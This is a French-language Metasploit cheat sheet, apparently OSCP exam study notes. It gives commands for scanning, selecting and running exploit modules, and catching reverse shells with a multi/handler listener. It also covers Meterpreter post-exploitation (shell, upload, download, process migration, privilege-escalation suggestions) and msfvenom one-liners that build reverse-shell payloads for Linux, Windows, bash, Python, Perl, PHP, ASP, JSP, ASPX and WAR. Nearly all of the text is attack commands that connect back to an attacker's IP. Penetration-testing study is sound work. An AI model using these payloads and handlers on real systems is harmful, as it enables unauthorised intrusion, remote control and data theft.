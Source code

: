 <img src="[https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/f9d72356-a603-42c4-92b4-dfeff2f868b8](https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/5e61b7cb-e435-4af9-b351-a7e83f8c147a)" height="180">

**Lancer nmap dans metasploit:**  
msf5 > db_nmap -A [IP]  
Il est possible faire des traitement sur les résultats du nmap.  
Par exemple la commande service donne tout les services détectés par nmap:  
msf5 > service [IP]  

**Rechercher une vulnérabilité:**  
msf5 > search [service]  

**Utiliser un module:**  
msf5 > use [/nom/du/script]  

**Voir les infos du module:**  
msf5 exploit(nom/du/script) > show info  

**Modifier un paramètre (LHOST, LPORT …):**  
msf5 exploit(nom/du/script) > set [PARAMETRE] [VARIABLE]  

**Lancer le script:**  
msf5 exploit(nom/du/script) > run  

**Pour Ouvrir un port en écoute:**  
msf5 > use exploit/multi/handler  
msf5 exploit(multi/handler) > set lhost [IP]  
msf5 exploit(multi/handler) > set lport [PORT]  
msf5 exploit(multi/handler) > set payload linux/x64/shell/reverse_tcp (liste des payload avec show payload)  
msf5 exploit(multi/handler) > run  

## Commande dans le meterpreter:  
**shell : **obtenir un shell  
**getuid :** Obtenir le nom de l'utilisateur qui execute le shell  
**sysinfo :** Obtenir des information sur le systeme et sur le meterpreter  
**upload :** upload un fichier via le metterpreter  
**download :** download un fichier via le metterpreter  
**lls /lcd :** lister et changer de repertoire en local quand un metterpreter est ouvert  
**backgroud :** mettre le metterpreter en backgroud  

## Migrer de processus:  
Si le metterpreter n'est pas stable il faut migrer de processus  
En utilisant un module POST : post/windows/manage/migrate  
ou alors avec la commande ps et migrate:  
meterpreter > ps  
meterpreter > migrate [PID]  

## Utilisation de modules de POST exploitation:  
post/multi/recon/local_exploit_suggester --> Liste les faille probable pour l'elevation de privilège sur windows  

## Générer des payloads avec msfvenom:  
**Linux:**  
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f elf > file.elf  

**Windows :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f exe > file.exe  

**Pour Bash :**  
msfvenom -p cmd/unix/reverse_bash LHOST=[IP]LPORT=[PORT] -f raw > file.sh  

**Pour Python:**  
msfvenom -p cmd/unix/reverse_python LHOST=[IP] LPORT=[PORT] -f raw > file.py  

**Pour Perl :**  
msfvenom -p cmd/unix/reverse_perl LHOST=[IP] LPORT=[PORT] -f raw > file.pl  

**Générer un fichier .php :**  
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.php  

**Générer un fichier.asp :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f asp > file.asp  

**Générer un fichier .jsp :**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > file.jsp  

**Générer un fichier .aspx :**  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f aspx > file.aspx  

**Générer un fichier .war:**  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > file.war  

